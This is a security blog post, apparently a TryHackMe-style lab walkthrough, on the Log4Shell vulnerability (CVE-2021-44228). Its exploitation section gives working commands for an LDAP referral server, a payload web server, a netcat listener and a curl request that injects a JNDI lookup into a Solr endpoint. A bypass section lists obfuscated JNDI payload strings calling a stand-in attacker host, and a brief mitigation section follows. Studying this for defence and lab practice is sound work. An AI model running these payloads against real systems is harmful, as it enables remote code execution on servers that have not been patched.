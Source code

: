 ```yaml
---
title: "CVE-2021-44228 Log4j Exploit - Log4Shell"
description: "Exploiting Log4j vulnerability, bypasses and mitigation."
date: "2021-12-14"
categories: [PoC]
tags: [linux, red team, penetration testing, zeroday]
pin: false
math: true
mermaid: true
image:
  path: "/assets/img/log4shell/log4j.png"
  alt: "Log4Shell"
---
```


`Log4j` took the internet by storm. Any social media app that you open, people will be talking about `log4j` somewhere, somehow. Even the gaming community mentioning `Log4j`. As this attack was noted in the wild to be used against a Minecraft server in an RCE but the reason the Minecraft server was compromised also affects millions of other applications and servers because `Log4j` is used by so many. `Log4j` is an open source Java utility by Apache built into many applications that easily logs user input and performs network lookups within the `JNDI`, to obtain services from `LDAP`. `Log4j` captures a message as a URL, fetches the correct response and can execute code.

This vulnerability, also known as `Log4Shell` can be identified as `CVE-2021-44228`. By the weekend, it was widely known to be a huge concern due to its ease of attacks and the potential to compromise servers giving its attack surface is relatively ubiquitous and used across millions of applications. 

According to the CEO of Cloudflare, Matthew Prince, the exploit has been in the wild at least 9 days before publicly disclosed.

![Log4Shell](/assets/img/log4shell/ceo.png)

<br>

### Exploitation

"LDAP Referrer Server" is used to redirect the initial request of the victim to another location which in this case is our payload server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.108.138:8000/#Exploit"
```

While our java payload will be serving on port 8000:

```
python3 -m http.server 8000
```

Listening on port 9999 on attacker machine:

```
nc -lvnp 9999
```

Executing the payload:

```
curl 'http://10.10.99.121:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.108.138:1389/Exploit\}'
```

<br>

![Log4Shell](/assets/img/log4shell/poc.png)

<br>

### Bypasses

Some bypasses from a few sources:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

<br>

### Mitigation

Cloudflare has since already been updated the managed ruleset with `Log4j` detection.

![Log4Shell](/assets/img/log4shell/cloudflarewaf.png)

`log4j` version `2.16.0` has been released and patches this vulnerability (`JNDI` is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability `CVE-2021-45046` is not present anymore).

`log4j-jndi-be-gone`, a simple Java agent from nccgroup can also be used to disable `log4j JNDI` handler covering Java 6 through Java 17.

Github: [log4j-jndi-be-gone](https://github.com/nccgroup/log4j-jndi-be-gone)

<br>

### Learn more:

More stuff: [John Hammond's Youtube video walking through the Log4j exploit on a Minecraft server.](https://www.youtube.com/watch?v=7qoPDq41xhQ)

If you want to learn and practice more on `Log4j`, TryHackMe has a greate room created by John Hammond himself: [TryHackme - Solr: Exploiting Log4j](https://tryhackme.com/room/solar)